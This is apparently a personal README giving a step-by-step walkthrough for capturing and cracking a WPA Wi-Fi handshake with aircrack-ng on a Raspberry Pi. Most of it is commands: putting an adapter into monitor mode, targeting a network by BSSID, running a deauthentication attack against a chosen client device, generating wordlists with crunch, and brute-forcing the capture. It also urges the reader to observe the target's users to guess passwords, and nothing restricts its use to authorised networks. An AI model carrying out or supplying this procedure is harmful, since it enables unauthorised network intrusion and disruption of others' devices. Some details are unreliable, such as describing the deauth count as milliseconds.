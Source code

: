 # Get Wi-fi Handshake
This is just a reminder for me to keep in mind how to get the wi-fi handshake while monitoring particular wi-fi signal.
I used Wi-fi Adaptor plugged into Raspberry Pi running NOOBS.

## Connecting Raspberry Pi
Open terminal, make sure `SSH` is enabled in your raspberry pi.
```
$ ssh <userName>@<IP>
```
Example: `ssh pi@192.168.1.100`.

If it ask you something, type `yes` and then enter your user password.

## Before Starting
```
$ sudo apt-get update
$ sudo apt-get upgrade
```

## Downloading Airmon-ng
```
$ sudo apt-get install -y aircrack-ng
```

## Checking Available Wi-fi Adaptors
Since you have 2 wi-fi adaptors, make sure you use one for monitoring while using other to control your raspberry pi.
You could either checking your adaptors by;
```
$ ifconfig
```
or, since you already installed `airmon-ng`
```
$ sudo airmon-ng
```
You will see `wlan0` and `wlan1` AND their IP's. Keep in mind which one is which.

## Starting Monitoring
```
$ sudo airmon-ng start wlan0
```
This code will start monitoring mode for `wlan0`. If you were connecting the raspberry pi from this adaptor, your connection will stop.
After this code, you will also see that the name of `wlan0` turns to `wlan0mon`. This is the name you will use after this point.
```
$ sudo airodump-ng wlan0mon
```
This line will list you all the available wi-fi signals and their properties for you. `BSSID`,`DATA`,`CH` and so on.
After choosing one, press `ctrl+c` to stop listing.

## Getting the Handshake
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> --write <namehandshakedocument> wlan0mon
```
Example: `sudo airodump-ng --bssid EC:08:6B:C7:24:CA --channel 1 --write handshake wlan0mon`.
This will start documentation with the name of `handshake`.
To get the handshake, at least one device should connect to that wi-fi. If you can not;

### Deauth Attack
With this attack, you can drop one device already connected to wi-fi. And while the device trying to reconnect, you will get the handshake.
To do this attack while listening the wi-fi, you should open a new terminal window and connect to raspberry pi again.
After that,
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> wlan0mon
$ sudo aireplay-ng --deauth <MSECONDS> -a <BSSID> -c <TARGERDEVICEMACADDRESS> wlan0mon
```
Example: `sudo aireplay-ng --deauth 1000 -a EC:08:6B:C7:24:CA -c 28:3F:69:46:2C:F2 wlan0mon`.
> The greater `MSECONDS` is, the longer that device gets hard time connecting to wi-fi.
After the attack, at the first terminal, you shoul be able to see `WPA handshake: EC:08:6B:C7:24:CA` on top.

## Decrypting
This is the hard part. You have the handshake but, it is still encrypted. However, there are few methods to decrypt.
Your `handshake` document will be waiting at `/home/pi`. You will see some new documents, you will only going to need the one named `handshake.cap`.

### Aircrack-ng
You could try using `aircrack-ng` but, it will take so much time.
```
$ sudo aircrack-ng handshake.cap
```
### Listing All Combinations
```
$ sudo crunch <NUMBER> <NUMBER> <CHARACTERS> -a <FILENAME> <SPECIALS>
```
Example: `sudo cruch 4 6 123ab -a word-list -t a@@@@b`.
What this line do is, listing all the possible combination password that has min `4`, max `6` characters; the characters/numbers of `1, 2, 3, a and b` will be used and that starts with `a` and ends with `b`.
Since passwords are long and complicated than just normal texts, I would guess this will also take some time.

### Making Your Own rockyou List
`rockyou.txt` is a list of common password on internet. And this is where things gets interesting. Know your target, observe the users, try to guess possible key words and write them all.
After you are done with rockyou list,
```
$ sudo aircrack-ng handshake.cap -w rockyou
```
This will compare all the possible passwords and give you the result. It could fail or success, depends on how good your rockyou list.

## To Turn Your Adaptor Back On
```
$ sudo airmon-ng stop wlan0mon
```
